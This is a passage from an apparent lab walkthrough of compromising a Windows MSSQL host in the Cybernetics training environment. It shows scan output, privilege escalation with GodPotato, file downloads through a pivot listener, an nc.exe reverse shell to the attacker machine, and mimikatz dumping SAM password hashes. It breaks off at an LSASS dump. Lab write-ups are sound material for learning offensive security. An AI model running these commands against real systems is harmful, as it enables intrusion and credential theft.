Same here we can run Rustscan from our machine and try to get as much as possible our of this host. And immediately I see the MSSQL port but no HTTP which might be a SQL server only?



And specifically I was right, it's the CYBERNETICS-M3SQLW VM.

```
PORT      STATE SERVICE       REASON         VERSION
135/tcp   open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
445/tcp   open  microsoft-ds? syn-ack ttl 64
1433/tcp  open  ms-sql-s      syn-ack ttl 64 Microsoft SQL Server 2016 13.00.4001.00; SP1
| ms-sql-ntlm-info: 
|   10.9.20.11\SQLEXPRESS: 
|     Target_Name: M3C
|     NetBIOS_Domain_Name: M3C
|     NetBIOS_Computer_Name: M3SQLW
|     DNS_Domain_Name: m3c.local
|     DNS_Computer_Name: m3sqlw.m3c.local
|     DNS_Tree_Name: m3c.local
|_    Product_Version: 10.0.14393
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-06-11T11:00:03
| Not valid after:  2054-06-11T11:00:03
| MD5:   e50f:c03b:d7fc:4905:ce33:2a5b:03b5:9c41
| SHA-1: 1ab2:9ee2:388b:811e:e6e9:cef5:5aa8:3f56:cfbd:f11a
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQFZUIiRnir7FLEisLcl9hSzANBgkqhkiG9w0BAQUFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjQwNjExMTEwMDAzWhgPMjA1NDA2MTExMTAwMDNaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAKk+kEd9
| caF0AzHLLqiChqlLXplzQ1S39jO6HouTR8/IxT6ObZildsMtm0jh1WjDRnkBf8Hu
| JaPTzb0S0cHxm4xn+SCZek1IRbl0HnjX0B8CgGrzcRWmBNzxlE3HKxqTsoQeqAbk
| zawQDMxga2kR6+M/ZJhFED2LC5yulmXfbVnnA3byOdei7DoRYmlNDR+rclOu921M
| nt2Lfs8zJYqqDtjatx99kkU7oIIaBzham2iJ3YI9YPgvY+3EaOAmfPCZW9hwIfS+
| Md50hDB6ptB3jvrmOClEy7yiFreDfrJP4IL8Rt7Jvl+NDE3ut9z/hRDAzkdtzMkQ
| 5RoP4Un4EE4vZpcCAwEAATANBgkqhkiG9w0BAQUFAAOCAQEAGYM61KamrV3i7Ncs
| vAJrJU3xxbulYRZbhLgLI8fbaAxmzaG9jD3mZgNFAS2DnO+C8W0EzDP1ctcq8TAj
| f6tHqZ2krdpIEieUELlQn0x2QnnVnB8RcphcVzfx6Tm/GniSz/CyhzH0ob68Q3xZ
| LsbkKbTVE9tzri9UgYHZp7eRIxlCx5Etpvx8yG3REN3c+IhnIillz8iTF1idFGM1
| klX0lxQPO0bCSLJNf2dtJjrwRi7IrhMwY3iRisYEd3k6oaEnC4BQvFGGC6Vb3m4H
| JdtTcFt/iqv+lbExplFF+Tb0m+331z1kaQSGNbICyesj8fS4mAF+YKTdtwOmfGri
| dxXTCQ==
|_-----END CERTIFICATE-----
| ms-sql-info: 
|   10.9.20.11\SQLEXPRESS: 
|     Instance name: SQLEXPRESS
|     Version: 
|       name: Microsoft SQL Server 2016 SP1
|       number: 13.00.4001.00
|       Product: Microsoft SQL Server 2016
|       Service pack level: SP1
|       Post-SP patches applied: false
|     TCP port: 1433
|_    Clustered: false
|_ssl-date: 2024-06-11T11:02:41+00:00; 0s from scanner time.
3389/tcp  open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=m3sqlw.m3c.local
| Issuer: commonName=m3sqlw.m3c.local
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-06-10T02:54:03
| Not valid after:  2024-12-10T02:54:03
| MD5:   324f:c02c:f567:0042:1211:9afc:fbba:2d5d
| SHA-1: 606a:3074:fead:a77a:4484:db9e:c2a9:01a1:197d:6d81
| -----BEGIN CERTIFICATE-----
| MIIC5DCCAcygAwIBAgIQWqibbJ52ArhPgxqfDOsLKDANBgkqhkiG9w0BAQsFADAb
| MRkwFwYDVQQDExBtM3NxbHcubTNjLmxvY2FsMB4XDTI0MDYxMDAyNTQwM1oXDTI0
| MTIxMDAyNTQwM1owGzEZMBcGA1UEAxMQbTNzcWx3Lm0zYy5sb2NhbDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBANZOwqZBVxyOIO39TNl1R1zr8lfGwJap
| 4gtpVnZUopFWWy8wJ98dD5pKfadkGph1eDPBJVj5jTBRfaDfHlJO91rHEX0UEG5m
| yN3wGapLeCEqb3aKetsjyD/BqZbe9MSSEcuhNhUtauYLcFq4UfzD6qxkpxVdvEal
| dWQT/14aMl3vE68dnhkKhCE2xAupe7YU54Da6vKmFuew3zwUNhhS2SE0bim0SZrz
| HgE+8K7IaDZR4DtOmIN7UxcpEIkamVVGDByiU9otyPgk01sBifC/bRY635dINvF0
| diLgDq8PvbvE5BrGxnQ8PLCH4SELL/yLq9bCCGACRJoCj2L7yjToWfcCAwEAAaMk
| MCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEB
| CwUAA4IBAQCM2xE7eKO8tQjE6l+/kqb9cUOaWmm1UQbE535FVp/YMevk02ZIP/gK
| 4SxLn9qFr0+mBB9CwBnnEnUfPQHoxE5Bm6b3aVD3vXxBKfzFvsv0rjWGZs6nf9OX
| lJBXYDa+KPWtFqlCdp+tL9gx/QunCsjVgHBMYVMJoX6KTKXpDQg/iW7VX50Vv0yo
| krs6HQ4citcrndrAsZaUToUyiM2BMQB7Lk5Eo3aiqmOfwm9dj33A75jKwHT+4g59
| sizOHBn3osxIjlom8j3od4M04fzuhnQ0M0xqR1S8RQ5gBQw0PTi4ByvjTIHsytls
| RvW78NC3iF6ARUzvYoSJ05RV68cA+MJp
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: M3C
|   NetBIOS_Domain_Name: M3C
|   NetBIOS_Computer_Name: M3SQLW
|   DNS_Domain_Name: m3c.local
|   DNS_Computer_Name: m3sqlw.m3c.local
|   DNS_Tree_Name: m3c.local
|   Product_Version: 10.0.14393
|_  System_Time: 2024-06-11T11:02:01+00:00
|_ssl-date: 2024-06-11T11:02:41+00:00; 0s from scanner time.
5985/tcp  open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
47001/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49685/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49707/tcp open  msrpc         syn-ack ttl 64 Microsoft Windows RPC
49794/tcp open  ms-sql-s      syn-ack ttl 64 Microsoft SQL Server 2016 13.00.4001.00; SP1
| ms-sql-ntlm-info: 
|   10.9.20.11:49794: 
|     Target_Name: M3C
|     NetBIOS_Domain_Name: M3C
|     NetBIOS_Computer_Name: M3SQLW
|     DNS_Domain_Name: m3c.local
|     DNS_Computer_Name: m3sqlw.m3c.local
|     DNS_Tree_Name: m3c.local
|_    Product_Version: 10.0.14393
| ms-sql-info: 
|   10.9.20.11:49794: 
|     Version: 
|       name: Microsoft SQL Server 2016 SP1
|       number: 13.00.4001.00
|       Product: Microsoft SQL Server 2016
|       Service pack level: SP1
|       Post-SP patches applied: false
|_    TCP port: 49794
|_ssl-date: 2024-06-11T11:02:41+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-06-11T11:00:03
| Not valid after:  2054-06-11T11:00:03
| MD5:   e50f:c03b:d7fc:4905:ce33:2a5b:03b5:9c41
| SHA-1: 1ab2:9ee2:388b:811e:e6e9:cef5:5aa8:3f56:cfbd:f11a
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQFZUIiRnir7FLEisLcl9hSzANBgkqhkiG9w0BAQUFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjQwNjExMTEwMDAzWhgPMjA1NDA2MTExMTAwMDNaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAKk+kEd9
| caF0AzHLLqiChqlLXplzQ1S39jO6HouTR8/IxT6ObZildsMtm0jh1WjDRnkBf8Hu
| JaPTzb0S0cHxm4xn+SCZek1IRbl0HnjX0B8CgGrzcRWmBNzxlE3HKxqTsoQeqAbk
| zawQDMxga2kR6+M/ZJhFED2LC5yulmXfbVnnA3byOdei7DoRYmlNDR+rclOu921M
| nt2Lfs8zJYqqDtjatx99kkU7oIIaBzham2iJ3YI9YPgvY+3EaOAmfPCZW9hwIfS+
| Md50hDB6ptB3jvrmOClEy7yiFreDfrJP4IL8Rt7Jvl+NDE3ut9z/hRDAzkdtzMkQ
| 5RoP4Un4EE4vZpcCAwEAATANBgkqhkiG9w0BAQUFAAOCAQEAGYM61KamrV3i7Ncs
| vAJrJU3xxbulYRZbhLgLI8fbaAxmzaG9jD3mZgNFAS2DnO+C8W0EzDP1ctcq8TAj
| f6tHqZ2krdpIEieUELlQn0x2QnnVnB8RcphcVzfx6Tm/GniSz/CyhzH0ob68Q3xZ
| LsbkKbTVE9tzri9UgYHZp7eRIxlCx5Etpvx8yG3REN3c+IhnIillz8iTF1idFGM1
| klX0lxQPO0bCSLJNf2dtJjrwRi7IrhMwY3iRisYEd3k6oaEnC4BQvFGGC6Vb3m4H
| JdtTcFt/iqv+lbExplFF+Tb0m+331z1kaQSGNbICyesj8fS4mAF+YKTdtwOmfGri
| dxXTCQ==
|_-----END CERTIFICATE-----
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=6/11%OT=135%CT=%CU=%PV=Y%G=N%TM=66682ED1%P=x86_64-pc-linux-gnu)
SEQ(SP=106%GCD=1%ISR=10A%TI=I%CI=I%II=RI%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=Y%DFI=S%TG=40%CD=S)
```

And again what about the UPD services? Nothing interesting unfortunately...



&nbsp;

# SMB

Same here we can try to run Enum4linux and check what juicy can we see?  


Nothing so far and can we maybe see some shares as anonymous user?



I guess we can move on!

# MSSQL

We know there is a port 1433/TCP which is used by MSSQL but we don't have any valid credentials so I guess we need to wait for other information!

But I realized that the entry point must be done from CYBERNETICS-CYWEBDW since these servers are linked together!

In the previous step we managed to gain a RCE via Linked server and now we need to find a way to get in!

As thought the sql_svc have impersonate permissions allowing us to gain a NTSystem again via GodPotato:

```
PS C:\> whoami /all

USER INFORMATION
----------------

User Name   SID
=========== ============================================
m3c\svc_sql S-1-5-21-340507432-2615605230-720798708-1292


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                                             Attributes
========================================== ================ =============================================================== ==================================================
Everyone                                   Well-known group S-1-1-0                                                         Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                                    Mandatory group, Enabled by default, Enabled group
BUILTIN\Performance Monitor Users          Alias            S-1-5-32-558                                                    Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                       Well-known group S-1-5-6                                                         Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                              Well-known group S-1-2-1                                                         Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                                        Mandatory group, Enabled by default, Enabled group
NT SERVICE\MSSQL$SQLEXPRESS                Well-known group S-1-5-80-3880006512-4290199581-1648723128-3569869737-3631323133 Enabled by default, Enabled group, Group owner
LOCAL                                      Well-known group S-1-2-0                                                         Mandatory group, Enabled by default, Enabled group
M3C\Service Accounts                       Group            S-1-5-21-340507432-2615605230-720798708-1313                    Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                                        Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288      


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
PS C:\>
```

Now the problem is to upload files on this machine, so I am hoping to find any credentials somewhere that can let me access by other means. And then add a secondary connection to Ligolo-NG!

Under users we can only see the Domain Administrator and the SQL_SVC user so far!

```
PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name                         
----                -------------         ------ ----                         
d-----        1/24/2020  11:53 AM                Administrator                
d-----       12/30/2021  12:19 PM                Administrator.M3C            
d-----        1/24/2020  11:59 AM                MSSQL$SQLEXPRESS             
d-r---        6/11/2024   3:31 AM                Public                       
d-----       12/30/2021   1:16 PM                SQLTELEMETRY$SQLEXPRESS      
d-----       12/30/2021  12:30 PM                svc_sql                      


PS C:\Users>
```

Can we see something juicy under the home folder?

Yes another flag baby!

```
PS C:\Users\svc_sql> cd Desktop
PS C:\Users\svc_sql\Desktop> cat flag.txt
Cyb3rN3t1C5{Sql$erv3rL!nkCr@wl}
PS C:\Users\svc_sql\Desktop> pwd
```

Now we need to ulpload some stuff so i will create a listener on the port 8081 that  will route the traffic back to my python server on the same port:  


And if we curl http://10.9.20.3:8081/test it should come back all the way to our python server?  


Damn it works! Now we can just upload nc and we should be gucci! But we need another listener so we can catch a shell!

```
ERRO[13219] Listener relay failed with error: EOF         listener="#1 [NT AUTHORITY\\NETWORK SERVICE@cywebdw] (tcp) [Agent] 0.0.0.0:8080 => [Proxy] 127.0.0.1:8080"
WARN[13219] Listener failed. Restarting in 5 seconds...  
[Agent : NT AUTHORITY\NETWORK SERVICE@cywebdw] » listener_list
┌────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────┐
│ Active listeners                                                                                                               │
├───┬────────────────────────────────────────────────────────────────┬─────────┬────────────────────────┬────────────────────────┤
│ # │ AGENT                                                          │ NETWORK │ AGENT LISTENER ADDRESS │ PROXY REDIRECT ADDRESS │
├───┼────────────────────────────────────────────────────────────────┼─────────┼────────────────────────┼────────────────────────┤
│ 5 │ #1 - NT AUTHORITY\NETWORK SERVICE@cywebdw - 10.10.110.10:49797 │ tcp     │ 0.0.0.0:8081           │ 127.0.0.1:8081         │
│ 6 │ #1 - NT AUTHORITY\NETWORK SERVICE@cywebdw - 10.10.110.10:49797 │ tcp     │ 0.0.0.0:8082           │ 127.0.0.1:8082         │
└───┴────────────────────────────────────────────────────────────────┴─────────┴────────────────────────┴────────────────────────┘
```

We can upload our files:

```
PS C:\temp> curl  http://10.9.20.13:8081/Godpotato.exe -o Godpotato.exe
PS C:\temp> dir


    Directory: C:\temp


Mode                LastWriteTime         Length Name                         
----                -------------         ------ ----                         
-a----        6/11/2024   9:22 AM          38616 nc.exe                       


PS C:\temp> curl http://10.9.20.13:8081/GodPotato.exe -o GodPotato.exe
PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name                         
----                -------------         ------ ----                         
-a----        6/11/2024   9:24 AM          57344 GodPotato.exe                
-a----        6/11/2024   9:22 AM          38616 nc.exe                       


PS C:\temp>
```

And now hopefully the Firewall won't block anything so far! Running GodPotato.exe shows that we can impersonate...



But what about a revshell instead?

```
./GodPotato -cmd "C:\Temp\nc.exe -t -e C:\Windows\System32\cmd.exe 10.9.20.13 8082"
```



Nice! Now I would like to run mimikatz.exe and dump all the immaginable so we can have a more stable shell!

As usual we can start by dumping the SAM:

```
C:\temp>mimikatz.exe "privilege::debug" "lsadump::sam" "exit"
mimikatz.exe "privilege::debug" "lsadump::sam" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # lsadump::sam
Domain : M3SQLW
SysKey : 2aa1b3c2027d47c1a8432f8d2e455268
Local SID : S-1-5-21-907414912-929592110-1210139672

SAMKey : 4c64e99784b32888758343dd112f02f4

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 71f237c7c4bad25d26bbc661205b7a07
    lm  - 0: ec2e7974cd5a9c3c51a6f0f1c9bc4baf
    lm  - 1: b10079c1507ebcf51c0458a30d051f42
    lm  - 2: 14a3d31ab8f0bf41eae32f4a87a626be
    lm  - 3: a11e5fbfb37daf27032dd745e13abad3
    lm  - 4: 3ccb0374a009741ea762bae0abd734b9
    lm  - 5: c7e2c7244333ae2b5f4ff9f4ff3ccc62
    lm  - 6: 9b83aa5ca1bdf2800a7f36c4d2a04810
    lm  - 7: 6528d97e7a0856d936352f601b619de2
    lm  - 8: 94f6708bc430b217637826b4b46b5689
    lm  - 9: 281f7d0d716b10e48cbdde923e5f995e
    lm  -10: 7dfd75a2c76b89abe073f3ea9df560f7
    lm  -11: 25a4bfcf1b2ead0d4c789c5380895947
    lm  -12: ea4adb371d646c8e6a11d8dfbcd52c16
    lm  -13: 5ea9419aa508f9b2bc8098a5f77674ed
    lm  -14: fefaa20543f470468de9dc4b45bf0d27
    lm  -15: daf11574dc0ff77efe9c36cc843a3eef
    lm  -16: 69a9f03868c268751b5024b9b9417d30
    lm  -17: 238731568d0dba5e2b54318cfa7af180
    lm  -18: a7c2eca45346e545a792a0ed661479e9
    lm  -19: 67e3e2b8ceac22c927dfe5a278b9998c
    lm  -20: 432a87978f1a6d074027454ae18c1cf6
    lm  -21: 85bf720b6a13945c90a00b7118e91847
    lm  -22: fb93d708ee5925cfdc87364fae9f52b2
    lm  -23: 96c0c44b53869990f85f3c54ef36e9f7
    ntlm- 0: 71f237c7c4bad25d26bbc661205b7a07
    ntlm- 1: 35b972e8ff6757c1c1a887a18814e14c
    ntlm- 2: 6454f267dddc1557ab1a4e8c676811f4
    ntlm- 3: 2de6bcf70688baa13a77c4aa490c6486
    ntlm- 4: fd9cb07cd8b94ee9acf7c739cee097d7
    ntlm- 5: b9400e231175da1c2993332c73e95a07
    ntlm- 6: 90d79747636dace7efbfc7f0006d985c
    ntlm- 7: 418880ed26f89ef67e14bd111bc5ce69
    ntlm- 8: 058aa8e3ebafd359299dc161304d2a97
    ntlm- 9: 1ad78466021ba407bbb5db7c5ea46248
    ntlm-10: 0b66d7ee091127edbbfb76b9461a62f6
    ntlm-11: edba11eef9442c910a817ec5f6c66b4a
    ntlm-12: 45801402cf08378e9c5881a1b017e640
    ntlm-13: a2b6c7e15045ff52c36bdeef133bb9a8
    ntlm-14: 8a7f0859ee478b4dd3d32f1df825047f
    ntlm-15: 90fe70b9ec9090294f92e5ebe773958d
    ntlm-16: dc6e9a60f7ffeb5ed191a690d05c14fb
    ntlm-17: d5d83ca35b51d4a852c394c0327695f9
    ntlm-18: 9c07ccce001ec24833af57ad245c43ef
    ntlm-19: 77863119afa77c772a385d78f1c0a213
    ntlm-20: a20c68e6e87e24f67f12f1ac92215344
    ntlm-21: 9e385c263742af1939ffe3b14f33754b
    ntlm-22: b7eff0f59d8c6c094e39b5cf855f63ca
    ntlm-23: 1ce6f00ca6a91e2710854ab06c98a7e5

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

mimikatz(commandline) # exit
Bye!
```

Now since this is a AD account there are tons of NTML that are most likely not going to work. What about dumping the LSASS.exe instead?

```
mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # token::elevate
Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

544	{0;000003e7} 1 D 28554     	NT AUTHORITY\SYSTEM	S-1-5-18	(04g,21p)	Primary
 -> Impersonated !
